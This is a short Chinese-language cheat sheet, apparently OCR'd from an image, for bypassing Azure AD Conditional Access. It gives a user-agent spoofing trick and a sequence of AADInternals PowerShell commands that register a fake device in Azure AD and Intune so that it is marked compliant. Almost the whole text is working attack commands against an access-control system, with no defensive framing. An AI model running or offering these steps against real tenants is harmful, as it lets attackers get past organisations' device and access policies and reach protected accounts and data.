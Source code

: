 	通过复制用户代理绕过条件访问（Chrome 开发工具 > 选择 iPad Pro 等）
	通过伪造设备合规性绕过条件访问
	AAD Internals - 使您的设备兼容
	获取 AAD 加入的访问令牌并保存到缓存
	Get-AADIntAccessTokenForAADJoin -SaveToCache
	将设备加入 Azure AD
	Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
	标记设备兼容 - 选项 1：将设备注册到 Intune
	获取 Intune MDM 的访问令牌并保存到缓存（提示输入凭据）
	Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
	将设备加入 Intune
	Join-AADIntDeviceToIntune -DeviceName "SixByFour"
	开始回调
	Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"